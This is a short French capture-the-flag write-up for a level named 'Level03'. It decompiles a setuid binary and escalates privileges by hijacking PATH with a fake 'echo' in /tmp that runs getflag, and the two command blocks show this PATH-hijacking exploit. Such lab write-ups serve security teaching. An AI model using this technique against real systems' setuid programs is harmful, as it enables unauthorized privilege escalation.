 # Level03

---

- On telecharge l'executable, puis on utilise des outils de reverse engineering pour observer le code tel que :
	- [Dogbolt](https://dogbolt.org/)
	- [Ghidra](https://www.ghidra-sre.org/)

- On peut observer plusieurs choses:
	1.  Le programme change le UID et GID.
	2.  La fonction "system" est appele
	3.  La fonction systeme utilise la commande bash "echo"

- Du fait de l'utilisation de l'env du systeme, on peut creer notre propre "echo" dans le dossier /tmp :
	```bash
	echo "/bin/getflag" > /tmp/echo
	chmod +x /tmp/echo
	export PATH=/tmp:$PATH
	./level03
	```
	ou bien
	```bash
	cp /bin/getflag /tmp/echo
	export PATH=/tmp:$PATH
	./level03
	```

- On obtient donc le flag de ce niveau.